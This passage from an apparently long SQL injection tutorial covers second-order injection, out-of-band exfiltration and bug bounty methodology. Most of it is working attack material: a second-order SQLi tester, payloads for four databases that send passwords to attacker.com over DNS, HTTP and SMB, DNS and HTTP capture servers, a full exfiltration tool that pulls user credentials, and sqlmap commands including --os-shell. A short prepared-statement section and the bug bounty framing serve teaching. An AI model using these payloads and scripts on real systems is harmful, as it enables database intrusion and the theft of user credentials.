                        'account': account['username'],
                        'trigger_url': trigger_url,
                        'details': result
                    })
        
        # Test 2: Error-Based Detection
        print(f"\n{Fore.YELLOW}[*] Test 2: Error-Based Second-Order SQLi\n")
        
        error_payloads = [
            ("error_mysql", "test' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION()))--", "error1@test.com", "password"),
            ("error_mssql", "test' AND 1=CONVERT(int,@@version)--", "error2@test.com", "password"),
            ("error_pgsql", "test' AND 1=CAST(version() AS int)--", "error3@test.com", "password"),
        ]
        
        for name, username, email, password in error_payloads:
            self.create_test_account(username, email, password)
            time.sleep(1)
            
            for trigger_url in self.trigger_urls:
                result = self.trigger_payload(trigger_url, {'username': username})
                
                if self.detect_error_based(result):
                    print(f"{Fore.RED}[!] ERROR-BASED SQLI FOUND!")
                    print(f"    Account: {username}")
                    print(f"    Trigger URL: {trigger_url}")
                    print(f"    Error snippet: {result.get('response', '')[:200]}")
                    
                    self.vulnerabilities.append({
                        'type': 'Error-Based',
                        'account': username,
                        'trigger_url': trigger_url,
                        'details': result
                    })
        
        # Test 3: Boolean-Based Detection
        print(f"\n{Fore.YELLOW}[*] Test 3: Boolean-Based Second-Order SQLi\n")
        
        # Create TRUE and FALSE payloads
        true_payload = ("bool_true", "test' AND '1'='1", "bool_true@test.com", "password")
        false_payload = ("bool_false", "test' AND '1'='2", "bool_false@test.com", "password")
        
        self.create_test_account(*true_payload)
        time.sleep(1)
        self.create_test_account(*false_payload)
        time.sleep(1)
        
        for trigger_url in self.trigger_urls:
            true_result = self.trigger_payload(trigger_url, {'username': true_payload[0]})
            false_result = self.trigger_payload(trigger_url, {'username': false_payload[0]})
            
            if self.detect_boolean_based(true_result, false_result):
                print(f"{Fore.RED}[!] BOOLEAN-BASED SQLI FOUND!")
                print(f"    Trigger URL: {trigger_url}")
                print(f"    TRUE length: {true_result.get('length', 0)}")
                print(f"    FALSE length: {false_result.get('length', 0)}")
                
                self.vulnerabilities.append({
                    'type': 'Boolean-Based',
                    'trigger_url': trigger_url,
                    'true_result': true_result,
                    'false_result': false_result
                })
        
        # Summary
        print(f"\n{Fore.CYAN}{'='*70}")
        print(f"{Fore.CYAN}Summary")
        print(f"{Fore.CYAN}{'='*70}\n")
        
        if self.vulnerabilities:
            print(f"{Fore.RED}[!] Found {len(self.vulnerabilities)} second-order SQLi vulnerabilities!\n")
            
            for vuln in self.vulnerabilities:
                print(f"{Fore.RED}Type: {vuln['type']}")
                print(f"Trigger URL: {vuln.get('trigger_url', 'N/A')}")
                print(f"Account: {vuln.get('account', 'N/A')}")
                print("-" * 50)
            
            # Save report
            with open('second_order_report.txt', 'w') as f:
                f.write("Second-Order SQL Injection Vulnerabilities\n")
                f.write("=" * 70 + "\n\n")
                
                for vuln in self.vulnerabilities:
                    f.write(f"Type: {vuln['type']}\n")
                    f.write(f"Trigger URL: {vuln.get('trigger_url', 'N/A')}\n")
                    f.write(f"Account: {vuln.get('account', 'N/A')}\n")
                    f.write(f"Details: {vuln.get('details', {})}\n")
                    f.write("-" * 70 + "\n\n")
            
            print(f"\n{Fore.GREEN}[+] Report saved to second_order_report.txt")
        else:
            print(f"{Fore.GREEN}[+] No second-order SQL injection vulnerabilities found")


def main():
    parser = argparse.ArgumentParser(description='Second-Order SQLi Testing Tool')
    parser.add_argument('-r', '--register', required=True, help='Registration URL')
    parser.add_argument('-t', '--triggers', required=True, nargs='+', help='Trigger URLs (space-separated)')
    
    args = parser.parse_args()
    
    tester = SecondOrderTester(args.register, args.triggers)
    tester.run_tests()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
# Basic usage
python second_order.py -r "http://target.com/register" -t "http://target.com/profile" "http://target.com/dashboard" "http://target.com/settings"

# Output:
# ======================================================================
# Second-Order SQL Injection Testing Tool
# ======================================================================
# 
# [*] Test 1: Time-Based Second-Order SQLi
# 
# [+] Account created: test' AND SLEEP(5)--
# [+] Account created: test'; WAITFOR DELAY '00:00:05'--
# [+] Account created: test'; SELECT pg_sleep(5)--
# 
# [*] Establishing baseline timing...
# [+] Baseline average: 0.45s
# 
# [*] Testing account: test' AND SLEEP(5)--
# [!] TIME-BASED SQLI FOUND!
#     Account: test' AND SLEEP(5)--
#     Trigger URL: http://target.com/profile
#     Response time: 5.23s
# 
# [*] Test 2: Error-Based Second-Order SQLi
# ...
```

### Prevention of Second-Order SQLi

```php
// ❌ VULNERABLE CODE
// Stage 1: Registration
$username = $_POST['username'];
$email = $_POST['email'];
$query = "INSERT INTO users (username, email) VALUES ('$username', '$email')";
mysqli_query($conn, $query);

// Stage 2: Profile display (second-order execution)
$user_id = $_SESSION['user_id'];
$result = mysqli_query($conn, "SELECT username FROM users WHERE id=$user_id");
$row = mysqli_fetch_assoc($result);
$username = $row['username'];

// Later used in another query (VULNERABLE!)
$posts_query = "SELECT * FROM posts WHERE author='$username'";

// ✅ SECURE CODE
// Stage 1: Use prepared statements for storage
$stmt = $conn->prepare("INSERT INTO users (username, email) VALUES (?, ?)");
$stmt->bind_param("ss", $_POST['username'], $_POST['email']);
$stmt->execute();

// Stage 2: Use prepared statements when retrieving
$stmt = $conn->prepare("SELECT username FROM users WHERE id=?");
$stmt->bind_param("i", $_SESSION['user_id']);
$stmt->execute();
$result = $stmt->get_result();
$row = $result->fetch_assoc();

// Even if username contains SQLi payload, parameterized query protects
$stmt = $conn->prepare("SELECT * FROM posts WHERE author=?");
$stmt->bind_param("s", $row['username']);
$stmt->execute();
```

---

## 🌐 Chapter 19: Out-of-Band Exploitation

### Understanding Out-of-Band (OOB) Techniques

```
What is Out-of-Band SQL Injection?
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
When you can't see query results in HTTP response,
use alternative channels to exfiltrate data:

Channels:
✓ DNS queries (most common)
✓ HTTP requests to attacker server
✓ SMTP (email)
✓ FTP connections
✓ LDAP queries
✓ SMB/UNC paths (Windows)

Why Use OOB?
- No visible output in response
- Blind SQLi too slow
- WAF blocks visible extraction
- Heavy queries timeout
- Need faster data exfiltration

Requirements:
✓ Database can make external connections
✓ Outbound traffic not blocked by firewall
✓ Attacker-controlled server to receive data
✗ More complex to set up
```

### DNS Exfiltration

#### Technique 1: MySQL DNS Exfiltration

```sql
# Using LOAD_FILE with UNC path
' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),'.attacker.com\\a'))--

# How it works:
# 1. SELECT password FROM users LIMIT 1 → Returns: 'secret123'
# 2. CONCAT creates: \\secret123.attacker.com\a
# 3. MySQL tries to load file from this UNC path
# 4. Triggers DNS lookup for: secret123.attacker.com
# 5. Attacker's DNS server logs the subdomain

# Exfiltrate database version
' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT @@version),'.attacker.com\\a'))--

# Exfiltrate multiple values
' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT CONCAT(username,'-',password) FROM users LIMIT 1),'.attacker.com\\a'))--

# Exfiltrate encoded data (to avoid special chars in DNS)
' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT HEX(password) FROM users LIMIT 1),'.attacker.com\\a'))--
```

#### Technique 2: MSSQL DNS Exfiltration

```sql
# Using xp_dirtree
'; EXEC master..xp_dirtree '\\'+(SELECT password FROM users WHERE id=1)+'.attacker.com\share'--

# Using xp_fileexist
'; EXEC master..xp_fileexist '\\'+(SELECT @@version)+'.attacker.com\file.txt'--

# Using xp_cmdshell with nslookup
'; EXEC xp_cmdshell 'nslookup '+(SELECT password FROM users WHERE id=1)+'.attacker.com'--

# Encoding for special characters
'; DECLARE @data varchar(100); SET @data=(SELECT password FROM users WHERE id=1); EXEC('master..xp_dirtree ''\\'+@data+'.attacker.com\share''')--

# Multiple values
'; DECLARE @data varchar(200); SET @data=(SELECT TOP 1 username+'-'+password FROM users); EXEC('master..xp_dirtree ''\\'+@data+'.attacker.com\share''')--
```

#### Technique 3: Oracle DNS Exfiltration

```sql
# Using UTL_INADDR.GET_HOST_ADDRESS
' UNION SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM users WHERE rownum=1)||'.attacker.com') FROM dual--

# Using UTL_HTTP.REQUEST
' UNION SELECT UTL_HTTP.REQUEST('http://'||(SELECT password FROM users WHERE rownum=1)||'.attacker.com') FROM dual--

# Using DBMS_LDAP.INIT
'; BEGIN
  DBMS_LDAP.INIT((SELECT password FROM users WHERE rownum=1)||'.attacker.com', 389);
END;--

# XMLType with external entity
' UNION SELECT EXTRACTVALUE(XMLType('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE rownum=1)||'.attacker.com/">
  %remote;
]>
<root/>'),'/l') FROM dual--
```

#### Technique 4: PostgreSQL DNS Exfiltration

```sql
# Using COPY TO PROGRAM with curl
'; COPY (SELECT password FROM users LIMIT 1) TO PROGRAM 'curl http://'||(SELECT password FROM users LIMIT 1)||'.attacker.com'--

# Using dblink extension
'; CREATE EXTENSION IF NOT EXISTS dblink--
'; SELECT dblink_connect('host='||(SELECT password FROM users LIMIT 1)||'.attacker.com dbname=postgres')--

# Using pg_read_file with UNC (Windows PostgreSQL)
' UNION SELECT pg_read_file('\\\\'||(SELECT password FROM users LIMIT 1)||'.attacker.com\\share\\file')--
```

### Setting Up DNS Server for OOB

#### Method 1: Using Burp Collaborator

```
1. Open Burp Suite
2. Go to: Burp → Burp Collaborator client
3. Click "Copy to clipboard"
4. You get: abc123.burpcollaborator.net

5. Use in payloads:
'; EXEC master..xp_dirtree '\\'+( SELECT password FROM users WHERE id=1)+'.abc123.burpcollaborator.net\a'--

6. Back in Burp Collaborator client:
7. Click "Poll now"
8. See DNS queries with exfiltrated data!
```

#### Method 2: Custom DNS Server

```python
#!/usr/bin/env python3
"""
Simple DNS Logger for OOB SQL Injection
Logs all DNS queries to capture exfiltrated data
"""

from scapy.all import *
from scapy.layers.dns import DNS, DNSQR, DNSRR
import datetime

class DNSLogger:
    def __init__(self, domain, logfile='dns_exfil.log'):
        self.domain = domain
        self.logfile = logfile
        
    def log_query(self, query):
        """Log DNS query to file"""
        timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        
        with open(self.logfile, 'a') as f:
            f.write(f"[{timestamp}] {query}\n")
        
        print(f"{Fore.GREEN}[+] Captured: {query}")
        
        # Parse exfiltrated data
        if self.domain in query:
            data = query.replace(f".{self.domain}", "")
            print(f"{Fore.YELLOW}[*] Exfiltrated data: {data}")
    
    def dns_handler(self, pkt):
        """Handle DNS packets"""
        if pkt.haslayer(DNSQR):
            query = pkt[DNSQR].qname.decode()
            
            if self.domain in query:
                self.log_query(query)
                
                # Send fake response
                ip_pkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
                udp_pkt = UDP(dport=pkt[UDP].sport, sport=53)
                dns_pkt = DNS(
                    id=pkt[DNS].id,
                    qr=1,
                    aa=1,
                    qd=pkt[DNS].qd,
                    an=DNSRR(rrname=pkt[DNSQR].qname, ttl=10, rdata='127.0.0.1')
                )
                
                send(ip_pkt/udp_pkt/dns_pkt, verbose=0)
    
    def start(self):
        """Start DNS server"""
        print(f"{Fore.CYAN}[*] Starting DNS logger for domain: {self.domain}")
        print(f"{Fore.CYAN}[*] Logging to: {self.logfile}")
        print(f"{Fore.CYAN}[*] Listening for DNS queries...\n")
        
        sniff(filter="udp port 53", prn=self.dns_handler)

if __name__ == "__main__":
    import argparse
    from colorama import Fore, init
    
    init(autoreset=True)
    
    parser = argparse.ArgumentParser(description='DNS Logger for OOB SQLi')
    parser.add_argument('-d', '--domain', required=True, help='Your domain name')
    parser.add_argument('-l', '--logfile', default='dns_exfil.log', help='Log file path')
    
    args = parser.parse_args()
    
    logger = DNSLogger(args.domain, args.logfile)
    logger.start()
```

**Setup:**

```bash
# 1. Get a domain: attacker.com
# 2. Point DNS to your server IP
# 3. Run DNS logger
sudo python dns_logger.py -d attacker.com

# 4. Inject payload
'; EXEC master..xp_dirtree '\\secret123.attacker.com\a'--

# 5. See in DNS logger:
# [+] Captured: secret123.attacker.com
# [*] Exfiltrated data: secret123
```

#### Method 3: Using DNSBin / RequestBin

```bash
# Free services that log DNS/HTTP requests

# 1. Go to dnsbin.zhack.ca or similar
# 2. Get unique subdomain: xyz123.dnsbin.zhack.ca

# 3. Use in payload:
'; EXEC master..xp_dirtree '\\'+(SELECT password FROM users WHERE id=1)+'.xyz123.dnsbin.zhack.ca\a'--

# 4. View logs on dnsbin website
# Shows: secret123.xyz123.dnsbin.zhack.ca
```

### HTTP Exfiltration

#### Technique 1: Direct HTTP Requests

```sql
# MySQL - Using LOAD_FILE with HTTP
' UNION SELECT LOAD_FILE(CONCAT('http://attacker.com/exfil?data=',(SELECT password FROM users LIMIT 1)))--

# Oracle - Using UTL_HTTP
' UNION SELECT UTL_HTTP.REQUEST('http://attacker.com/exfil?data='||(SELECT password FROM users WHERE rownum=1)) FROM dual--

# MSSQL - Using OLE Automation
'; DECLARE @obj int; 
  EXEC sp_OACreate 'MSXML2.ServerXMLHTTP', @obj OUT;
  EXEC sp_OAMethod @obj, 'open', NULL, 'GET', 'http://attacker.com/exfil?data='+(SELECT password FROM users WHERE id=1), false;
  EXEC sp_OAMethod @obj, 'send';
  EXEC sp_OADestroy @obj--

# PostgreSQL - Using COPY TO PROGRAM
'; COPY (SELECT password FROM users LIMIT 1) TO PROGRAM 'curl http://attacker.com/exfil?data=$(cat)'--
```

#### Technique 2: HTTP Server Setup

```python
#!/usr/bin/env python3
"""
Simple HTTP Server for OOB Exfiltration
Logs all incoming requests with exfiltrated data
"""

from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse, parse_qs
import datetime
from colorama import Fore, init

init(autoreset=True)

class ExfilHandler(BaseHTTPRequestHandler):
    def log_exfil(self, data):
        """Log exfiltrated data"""
        timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        
        with open('http_exfil.log', 'a') as f:
            f.write(f"[{timestamp}] {data}\n")
        
        print(f"{Fore.GREEN}[+] Exfiltrated: {data}")
    
    def do_GET(self):
        """Handle GET requests"""
        parsed_path = urlparse(self.path)
        query_params = parse_qs(parsed_path.query)
        
        print(f"{Fore.CYAN}[*] Request from: {self.client_address[0]}")
        print(f"{Fore.CYAN}[*] Path: {self.path}")
        
        # Extract data parameter
        if 'data' in query_params:
            data = query_params['data'][0]
            self.log_exfil(data)
        
        # Send response
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(b'OK')
    
    def do_POST(self):
        """Handle POST requests"""
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode()
        
        print(f"{Fore.CYAN}[*] POST from: {self.client_address[0]}")
        print(f"{Fore.CYAN}[*] Data: {post_data}")
        
        self.log_exfil(post_data)
        
        # Send response
        self.send_response(200)
        self.end_headers()
    
    def log_message(self, format, *args):
        """Suppress default logging"""
        pass

def run_server(port=80):
    """Start HTTP server"""
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExfilHandler)
    
    print(f"{Fore.YELLOW}{'='*50}")
    print(f"{Fore.YELLOW}OOB HTTP Exfiltration Server")
    print(f"{Fore.YELLOW}{'='*50}\n")
    print(f"{Fore.GREEN}[+] Server running on port {port}")
    print(f"{Fore.GREEN}[+] Logging to: http_exfil.log\n")
    
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print(f"\n{Fore.RED}[!] Server stopped")

if __name__ == "__main__":
    import argparse
    
    parser = argparse.ArgumentParser(description='HTTP Exfiltration Server')
    parser.add_argument('-p', '--port', type=int, default=80, help='Port to listen on')
    
    args = parser.parse_args()
    
    run_server(args.port)
```

**Usage:**

```bash
# Start server
sudo python http_exfil_server.py -p 80

# Inject payload
' UNION SELECT UTL_HTTP.REQUEST('http://your-ip/exfil?data='||(SELECT password FROM users WHERE rownum=1)) FROM dual--

# Server logs:
# [*] Request from: 203.0.113.50
# [*] Path: /exfil?data=secret123
# [+] Exfiltrated: secret123
```

### SMB/UNC Path Exfiltration (Windows)

```sql
# MSSQL - UNC path
'; EXEC master..xp_dirtree '\\attacker-ip\share\'+(SELECT password FROM users WHERE id=1)--

# Capture with Responder
# Terminal 1: Start Responder
sudo responder -I eth0 -v

# Terminal 2: Trigger SQLi
curl "http://target.com/page.aspx?id=1'; EXEC master..xp_dirtree '\\\\attacker-ip\\share\\'+(SELECT password FROM users WHERE id=1)--"

# Responder captures:
# [SMB] NTLMv2-SSP Client   : 203.0.113.50
# [SMB] NTLMv2-SSP Username : WORKGROUP\sqlserver
# [SMB] NTLMv2-SSP Hash     : sqlserver::WORKGROUP:...hash...
# [*] Exfiltrated data in path: \share\secret123
```

### Complete OOB Exploitation Script

```python
#!/usr/bin/env python3
"""
Complete Out-of-Band SQL Injection Exploitation Tool
Supports DNS, HTTP, and SMB exfiltration
"""

import requests
import time
import argparse
from colorama import Fore, init
from threading import Thread
import socket

init(autoreset=True)

class OOBExploiter:
    def __init__(self, url, param, exfil_domain, db_type='MySQL'):
        self.url = url
        self.param = param
        self.exfil_domain = exfil_domain
        self.db_type = db_type
        self.exfiltrated_data = []
        
    def build_dns_payload(self, query):
        """Build DNS exfiltration payload"""
        payloads = {
            'MySQL': f"' UNION SELECT LOAD_FILE(CONCAT('\\\\\\\\',({query}),'.{self.exfil_domain}\\\\a'))--",
            'MSSQL': f"'; EXEC master..xp_dirtree '\\\\\\\\'+({query})+'.{self.exfil_domain}\\\\share'--",
            'Oracle': f"' UNION SELECT UTL_INADDR.GET_HOST_ADDRESS(({query})||'.{self.exfil_domain}') FROM dual--",
            'PostgreSQL': f"'; SELECT dblink_connect('host='||({query})||'.{self.exfil_domain} dbname=postgres')--"
        }
        
        return payloads.get(self.db_type, payloads['MySQL'])
    
    def build_http_payload(self, query):
        """Build HTTP exfiltration payload"""
        payloads = {
            'MySQL': f"' UNION SELECT LOAD_FILE(CONCAT('http://{self.exfil_domain}/exfil?data=',({query})))--",
            'MSSQL': f"'; DECLARE @obj int; EXEC sp_OACreate 'MSXML2.ServerXMLHTTP', @obj OUT; EXEC sp_OAMethod @obj, 'open', NULL, 'GET', 'http://{self.exfil_domain}/exfil?data='+({query}), false; EXEC sp_OAMethod @obj, 'send'--",
            'Oracle': f"' UNION SELECT UTL_HTTP.REQUEST('http://{self.exfil_domain}/exfil?data='||({query})) FROM dual--",
            'PostgreSQL': f"'; COPY (SELECT ({query})) TO PROGRAM 'curl http://{self.exfil_domain}/exfil?data=$(cat)'--"
        }
        
        return payloads.get(self.db_type, payloads['MySQL'])
    
    def send_payload(self, payload):
        """Send injection payload"""
        try:
            full_url = f"{self.url}?{self.param}={payload}"
            response = requests.get(full_url, timeout=10)
            return response
        except Exception as e:
            print(f"{Fore.RED}[!] Error sending payload: {str(e)}")
            return None
    
    def extract_via_dns(self, query, description):
        """Extract data via DNS"""
        print(f"{Fore.CYAN}[*] Extracting {description} via DNS...")
        
        payload = self.build_dns_payload(query)
        self.send_payload(payload)
        
        print(f"{Fore.GREEN}[+] Payload sent. Check DNS logs for: *.{self.exfil_domain}")
        
    def extract_via_http(self, query, description):
        """Extract data via HTTP"""
        print(f"{Fore.CYAN}[*] Extracting {description} via HTTP...")
        
        payload = self.build_http_payload(query)
        self.send_payload(payload)
        
        print(f"{Fore.GREEN}[+] Payload sent. Check HTTP server logs")
    
    def run_extraction(self, method='dns'):
        """Run data extraction"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Out-of-Band SQL Injection Exploitation")
        print(f"{Fore.YELLOW}{'='*70}\n")
        print(f"{Fore.CYAN}Target: {self.url}")
        print(f"{Fore.CYAN}Parameter: {self.param}")
        print(f"{Fore.CYAN}Database: {self.db_type}")
        print(f"{Fore.CYAN}Exfil Domain: {self.exfil_domain}")
        print(f"{Fore.CYAN}Method: {method.upper()}\n")
        
        # Extract database version
        version_queries = {
            'MySQL': 'SELECT @@version',
            'MSSQL': 'SELECT @@version',
            'Oracle': 'SELECT banner FROM v$version WHERE rownum=1',
            'PostgreSQL': 'SELECT version()'
        }
        
        version_query = version_queries.get(self.db_type)
        
        if method == 'dns':
            self.extract_via_dns(version_query, "database version")
        else:
            self.extract_via_http(version_query, "database version")
        
        time.sleep(2)
        
        # Extract current database
        db_queries = {
            'MySQL': 'SELECT database()',
            'MSSQL': 'SELECT DB_NAME()',
            'Oracle': 'SELECT SYS.DATABASE_NAME FROM dual',
            'PostgreSQL': 'SELECT current_database()'
        }
        
        db_query = db_queries.get(self.db_type)
        
        if method == 'dns':
            self.extract_via_dns(db_query, "current database")
        else:
            self.extract_via_http(db_query, "current database")
        
        time.sleep(2)
        
        # Extract user credentials
        user_queries = {
            'MySQL': 'SELECT CONCAT(username,0x2d,password) FROM users LIMIT 1',
            'MSSQL': "SELECT TOP 1 username+'-'+password FROM users",
            'Oracle': "SELECT username||'-'||password FROM users WHERE rownum=1",
            'PostgreSQL': "SELECT username||'-'||password FROM users LIMIT 1"
        }
        
        user_query = user_queries.get(self.db_type)
        
        if method == 'dns':
            self.extract_via_dns(user_query, "user credentials")
        else:
            self.extract_via_http(user_query, "user credentials")
        
        print(f"\n{Fore.GREEN}[+] Extraction payloads sent!")
        print(f"{Fore.YELLOW}[*] Monitor your DNS/HTTP server for exfiltrated data")


def main():
    parser = argparse.ArgumentParser(description='OOB SQLi Exploitation Tool')
    parser.add_argument('-u', '--url', required=True, help='Target URL')
    parser.add_argument('-p', '--param', required=True, help='Injectable parameter')
    parser.add_argument('-d', '--domain', required=True, help='Your exfiltration domain')
    parser.add_argument('-db', '--database', default='MySQL', 
                       choices=['MySQL', 'MSSQL', 'Oracle', 'PostgreSQL'],
                       help='Database type')
    parser.add_argument('-m', '--method', default='dns',
                       choices=['dns', 'http'],
                       help='Exfiltration method')
    
    args = parser.parse_args()
    
    exploiter = OOBExploiter(args.url, args.param, args.domain, args.database)
    exploiter.run_extraction(args.method)


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
# DNS exfiltration
python oob_exploit.py -u "http://target.com/page.php" -p "id" -d "attacker.com" -db MySQL -m dns

# HTTP exfiltration
python oob_exploit.py -u "http://target.com/page.aspx" -p "id" -d "attacker.com" -db MSSQL -m http

# Start listeners before running:
# Terminal 1: DNS server
sudo python dns_logger.py -d attacker.com

# Terminal 2: HTTP server
sudo python http_exfil_server.py -p 80

# Terminal 3: Run exploitation
python oob_exploit.py -u "http://target.com/page.php" -p "id" -d "attacker.com" -m dns
```

## 💰 Chapter 20: Bug Bounty Methodology

### Understanding Bug Bounty Programs

```
What is Bug Bounty Hunting?
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Finding security vulnerabilities in applications
and reporting them to companies for rewards.

Top Bug Bounty Platforms:
✓ HackerOne (hackerone.com)
✓ Bugcrowd (bugcrowd.com)
✓ Synack (synack.com)
✓ Intigriti (intigriti.com)
✓ YesWeHack (yeswehack.com)
✓ Open Bug Bounty (openbugbounty.org)
✓ Direct programs (Google VRP, Facebook, etc.)

SQLi Bounty Statistics:
💰 Average Payout: $500 - $5,000
💰 High Severity: $5,000 - $25,000
💰 Critical (with RCE): $25,000 - $100,000+
📊 Most Common Finding: Authentication Bypass
🎯 Best ROI: Admin Panels, API Endpoints
```

### The Bug Bounty Hunter's Workflow

```
Phase 1: Program Selection (30 minutes)
  ↓
Phase 2: Reconnaissance (2-4 hours)
  ↓
Phase 3: Asset Discovery (1-2 hours)
  ↓
Phase 4: Vulnerability Scanning (2-4 hours)
  ↓
Phase 5: Manual Testing (4-8 hours)
  ↓
Phase 6: Exploitation & PoC (1-2 hours)
  ↓
Phase 7: Report Writing (1-2 hours)
  ↓
Phase 8: Validation & Communication (ongoing)
```

### Phase 1: Program Selection

#### Choosing the Right Program

```python
# Evaluation Criteria
criteria = {
    'Scope': {
        'Wide scope': 10,      # More opportunities
        'Specific targets': 5,  # Focused testing
        'Single domain': 3      # Limited surface
    },
    'Rewards': {
        'High payouts': 10,     # $5,000+ for SQLi
        'Medium payouts': 7,    # $1,000 - $5,000
        'Low payouts': 3,       # <$1,000
        'No rewards': 0         # Skip unless learning
    },
    'Response Time': {
        'Fast (< 48h)': 10,     # Quick validation
        'Medium (3-7 days)': 7,
        'Slow (> 2 weeks)': 3
    },
    'Reputation': {
        'Established': 10,      # Reliable payments
        'New program': 5,       # Higher risk
        'Unknown': 2            # Verify first
    },
    'Competition': {
        'Low competition': 10,  # Easier findings
        'Medium': 7,
        'High': 3               # Harder to find bugs
    }
}

# Programs to Focus On:
✓ Newly launched programs (less picked over)
✓ Programs with wide scope (*.example.com)
✓ Enterprise/Financial applications (high rewards)
✓ Programs with good reputation
✓ Medium-sized programs (less competition)

# Programs to Avoid:
✗ Extremely popular programs (picked clean)
✗ Very low rewards (not worth time)
✗ Slow response times (delays payment)
✗ Unclear scope (risk of out-of-scope)
```

### Phase 2: Reconnaissance

#### Technique 1: Subdomain Enumeration

```bash
# Step 1: Gather subdomains
subfinder -d target.com -o subdomains.txt
assetfinder --subs-only target.com >> subdomains.txt
amass enum -passive -d target.com -o amass_subs.txt
cat amass_subs.txt >> subdomains.txt

# Step 2: Sort and deduplicate
cat subdomains.txt | sort -u > unique_subdomains.txt

# Step 3: Resolve active hosts
cat unique_subdomains.txt | httpx -silent -o live_subdomains.txt

# Step 4: Probe for web applications
cat live_subdomains.txt | httpx -title -status-code -tech-detect -o web_apps.txt

# Output analysis:
# https://admin.target.com [200] [Admin Panel] [PHP]
# https://api.target.com [200] [API] [Node.js]
# https://legacy.target.com [200] [Legacy System] [ASP.NET]
```

#### Technique 2: Parameter Discovery

```bash
# Crawl for parameters
gospider -s https://target.com -o output -c 10 -d 3

# Extract URLs with parameters
cat output/* | grep -Eo "https?://[^[:space:]]+" | grep "?" > urls_with_params.txt

# Use parameter mining tools
paramspider -d target.com -o params.txt
arjun -u https://target.com/page -o arjun_params.txt

# Combine all parameters
cat params.txt arjun_params.txt urls_with_params.txt | sort -u > all_params.txt

# Analyze parameter types:
# GET parameters:
https://target.com/product.php?id=1
https://target.com/search.php?q=keyword&category=all
https://target.com/user.php?uid=123

# POST parameters (from forms):
username=admin&password=pass
search=query&filter=date&sort=asc

# Hidden parameters:
debug=true
admin=1
test=1
```

#### Technique 3: Technology Stack Identification

```bash
# Identify technologies
whatweb https://target.com
wappalyzer https://target.com (browser extension)
builtwith https://target.com

# Check for common frameworks
# PHP: .php extensions, PHP headers
# ASP.NET: .aspx, X-AspNet-Version header
# Java: .jsp, .do, JSESSIONID cookie
# Python: Flask/Django error pages
# Ruby: .rb, Rails error pages
# Node.js: Express headers

# Identify database from errors
# MySQL: "You have an error in your SQL syntax"
# MSSQL: "Microsoft SQL Native Client error"
# Oracle: "ORA-xxxxx"
# PostgreSQL: "PostgreSQL query failed"

# Technology = Attack vectors
MySQL + PHP = UNION, Error-based, File operations
MSSQL + ASP.NET = xp_cmdshell, OLE Automation
Oracle + Java = Java stored procedures
PostgreSQL + Node.js = pg_sleep, COPY TO PROGRAM
```

### Phase 3: Asset Discovery & Prioritization

#### High-Value Targets for SQLi

```
Priority 1: CRITICAL (Test First)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
✓ Admin/Dashboard panels
  - /admin, /dashboard, /cpanel
  - Higher impact = higher bounty
  
✓ Authentication endpoints
  - /login, /signin, /auth
  - Bypass = critical severity
  
✓ API endpoints
  - /api/v1/*, /rest/*, /graphql
  - Often less protected
  
✓ Payment/Financial pages
  - /checkout, /payment, /billing
  - PCI compliance issues = high rewards

Priority 2: HIGH (Test Second)
━━━━━━━━━━━━━━━━━━━━━━━━━━━
✓ Search functionality
  - Complex queries, multiple params
  
✓ Profile/Account pages
  - User data exposure
  
✓ Report generation
  - Often uses raw SQL
  
✓ Export features
  - CSV, PDF generation

Priority 3: MEDIUM (Test Third)
━━━━━━━━━━━━━━━━━━━━━━━━━━━
✓ Filtering/Sorting features
✓ Pagination endpoints
✓ Public product listings
✓ Blog/News sections

Priority 4: LOW (If Time Permits)
━━━━━━━━━━━━━━━━━━━━━━━━━━
✓ Static content pages
✓ Help/FAQ sections
✓ Contact forms (usually sanitized)
```

### Phase 4: Automated Vulnerability Scanning

#### SQLMap Workflow

```bash
# Step 1: Test single URL
sqlmap -u "http://target.com/product.php?id=1" --batch --level=2 --risk=2

# Step 2: Test from file
cat urls_with_params.txt | while read url; do
    echo "[*] Testing: $url"
    sqlmap -u "$url" --batch --level=2 --risk=2 --threads=5
done

# Step 3: Test with authentication
sqlmap -u "http://target.com/dashboard?id=1" \
    --cookie="session=abc123" \
    --batch --level=3 --risk=2

# Step 4: Test POST requests
sqlmap -u "http://target.com/search" \
    --data="q=test&category=all" \
    --batch --level=2 --risk=2

# Step 5: Test headers
sqlmap -u "http://target.com/page" \
    --headers="X-Forwarded-For: 127.0.0.1*" \
    --batch --level=3

# Step 6: Advanced options
sqlmap -u "http://target.com/api/user?id=1" \
    --batch \
    --level=5 \
    --risk=3 \
    --threads=10 \
    --tamper=space2comment \
    --random-agent \
    --technique=BEUST \
    --dbms=MySQL \
    --os-shell  # If successful, try OS shell

# Useful SQLMap options:
--batch             # Never ask for user input
--level=5           # Test all parameters thoroughly
--risk=3            # Use risky payloads
--threads=10        # Speed up testing
--tamper=           # WAF bypass scripts
--technique=BEUST   # B=Boolean, E=Error, U=Union, S=Stacked, T=Time
--dbms=             # Specify database type
--os-shell          # Try to get OS shell
--sql-shell         # Interactive SQL shell
--dump              # Extract data
--dump-all          # Extract everything (careful!)
--random-agent      # Randomize User-Agent
--proxy=            # Use proxy (Burp)
```

#### Custom Scanning Script

```python
#!/usr/bin/env python3
"""
Custom SQLi Scanner for Bug Bounty
Automated testing with custom payloads
"""

import requests
import time
